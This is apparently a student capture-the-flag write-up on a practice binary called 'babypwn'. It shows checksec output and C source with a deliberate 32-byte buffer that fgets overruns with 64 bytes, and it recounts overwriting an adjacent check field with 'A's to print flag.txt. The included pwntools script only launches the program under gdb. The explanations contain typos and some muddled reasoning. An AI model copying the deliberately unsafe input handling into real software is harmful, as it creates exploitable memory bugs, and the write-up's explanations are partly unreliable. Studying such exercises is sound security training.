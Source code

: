 # Documentation for the babypwn files

## 'babypwn'

### File Output
```
babypwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, not stripped
```
### 'babypwn' checksec output
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   70 Symbols        No       0               2               babypwn
```
## 'babypwn.c'

### 'babypwn.c' File Output
```
babypwn.c: C source, ASCII text
```

## Possible Vulnerabilities
- The character array is initialized as 32 bites but the input is reading 64 bites.
- The check variable was never initialized but it is being compared.
- There is a fixed memory adress.
# Errors from the debug
### Stack issues 
```
$rsp   : 0x00007fffffffddb8  →  0x0041414141414141 ("AAAAAAA"?)
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00007fffffffd7b0  →  "This is the flag! pwntools!\n"
$rdi   : 0x00007fffffffd780  →  0x00007fffffffd7b0  →  "This is the flag! pwntools!\n"
```
#### Segmentaion Fault Display
```
[#0] Id 1, Name: "babypwn", stopped 0x4012c3 in main (), reason: SIGSEGV
```

## What the program is doing
- The 'babypwn' program begins by creating a character array that serves as a **buffer that stores 32 bites** and a check integer variable
``` C 
struct __attribute__((__packed__)) data {
  char buff[32];
  int check;
};
```
- Then the **get_flag()** function open and prints the text file **flag.txt ONLY IF name.check() is set to 0x41414141.** 
``` C
void get_flag(void)
{
  char flag[1024] = { 0 };
  FILE *fp = fopen("flag.txt", "r");
  fgets(flag, 1023, fp);
  printf(flag);
}
``` 
- The program then akss the user for their **name** then reads and stores their input into **'name.buff'**.
``` C
printf("What's your name?\n");
fgets(name.buff, 64, stdin);
```
- A print statement to display the user's name along with a welcome message is executed.
``` C
printf("%s nice to meet you!\n", name.buff);
```
- Lastly, a conditional statement block of code is ran to check **if the user's name is equal to 0X41414141** If the **buffer overflow** occurs, the **'flag.txt' message will appear**.
``` C
if (name.check == 0x41414141) {
  get_flag();
}
```
## Vulnerable function
The **vulnerable function** is the **'fgets()'** because at the start of the program the chracter arrays is to store **32** bites however, the **'fgets()'** function is reading **64 bites**. This will cause  a **BUFFER OVERFLOW**.

## Exploitation Procedure
To exploit this vulnerability, weknew we had to **overwrate 'name.check'**. 0x41414141 dislpays a long series of the letter **'A'** so we simply entered **'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'** when the program asked for a name. This cause the message in the **'flag.txt' to successfully display** because our input was longer than **32 characters** .



# Exploitation Code
``` python 
 #!/usr/bin/env python
 
from pwn import *
 
p = process('babypwn')
 
gdb.attach(p, '''continue''')
 
p.interactive()
```
As shown **aboive**, the source code the **pwnsol.py** file begins by accessing the **babypwn** file then attaches a **gdb degugger** which allowed us to see what was going on inside of our program. Now the next time the **babypwn** file is ran, our **flag.txt** file will appear.

### 'flag.txt file'
```
his is the flag! pwntools!
```
